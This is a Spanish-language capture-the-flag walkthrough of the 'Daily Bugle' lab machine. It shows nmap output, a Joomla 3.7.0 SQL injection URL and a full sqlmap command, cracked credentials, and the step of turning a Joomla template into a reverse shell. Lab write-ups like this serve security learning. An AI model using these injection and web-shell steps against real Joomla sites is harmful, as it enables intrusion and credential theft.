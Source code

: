# Daily Bugle 

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.17.253

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-08 12:17 GMT
Nmap scan report for ip-10-10-17-253.eu-west-1.compute.internal (10.10.17.253)
Host is up (0.00041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 02:DF:DB:D2:6E:2B (Unknown)
```

Vaya vaya, una base de datos ;)

y una web en el que vemos que tenemos el /robots.txt que esta quitando bastantes entries pero veremos a ver

Parece ser jajaj que el puto spider-man a robado un banco!!

![image](https://github.com/user-attachments/assets/0ee6da09-1446-4b84-8ad1-aadb4ceb8359)

También podemos ver un logeo vamos a enumerar subdominios a ver que encontramos

Encontramos la página de logeo de Joomla en /administrator

![image](https://github.com/user-attachments/assets/96bd96f1-c06b-4f88-80a5-c97ef47999bd)

Podriamos enumerar de mil formas para sacar la versión

De las formas de enumerar Joomla tenemos el /robots.txt y el /README.txt 

Sacamos la versión de Joomla: 3.7.0

![image](https://github.com/user-attachments/assets/6bcdeebb-773d-4e05-866d-c4f3e0112ff8)

Vaya vaya que casualidad justo.. un SQL injection

![image](https://github.com/user-attachments/assets/9bd6c5eb-adc8-4f38-9ae8-8fb28635efef)

Nos comenta que la url vulnerable es esta:

```
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

En mi caso utilizare SQLmap:

```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

También tenemos un python que lo hace automaticamente y no nos tenemos que meter con sqlMap para otras personas:

https://github.com/XiphosResearch/exploits/tree/master/Joomblah

![image](https://github.com/user-attachments/assets/33138513-3a22-4e86-be3a-6819636401ad)

Sacamos el hash 

Vamos a identificar el hash y posteriormente deshasearlo como vemos que empeiza con $2 podemos ir identificando

Después de unos minutos con john sacamos la contraseña: spiderman123

Vamos a probar a meternos al joomla

```
jonah:spiderman123
```

![image](https://github.com/user-attachments/assets/a5058f07-1c56-40d2-86c2-935f0f9ca6b6)

Estamos dentro. 

Como ya sabemos joomla suele tener problemas con los templates pudiendo cambiar su configuracion, vamos a crear una rev shell y vamos a probar en un archivo php por ejemplo el index.php que es el que carga la página y cambiarlo por una 

![image](https://github.com/user-attachments/assets/351fdcba-7e7c-4f9c-a44b-03c8e848c822)

Simplemente reiniciamos la página y veremos como nos conecta

![image](https://github.com/user-attachments/assets/0dcb7701-f085-4f44-a58f-8fc4322cfeb8)

No tenemos permisos para coger la flag del usuario o meternos a su directorio

![image](https://github.com/user-attachments/assets/15d655ec-231e-4d7c-835d-4d808636a2f6)

Enumerando el sistema nos encontramos en el directorio /var/www/html/configuration.php esto:

![image](https://github.com/user-attachments/assets/64258ba4-f995-4c18-9ff2-8d79d9b3e5fe)

nv5uz9r3ZEDzVjNu

![image](https://github.com/user-attachments/assets/097d1d76-2657-4c6e-9c60-b4b1b0f6a9cd)

Estamos dentro, voy a upgradear la shell porque da pena

Con esto ya tenemos la primera flag:

![image](https://github.com/user-attachments/assets/f5ef3fdd-29d3-4968-b508-002e60f3ce25)

Vamos a enumerar que privilegios tenemos

![image](https://github.com/user-attachments/assets/68b07506-c1c7-41fb-a1ea-06edf446660d)


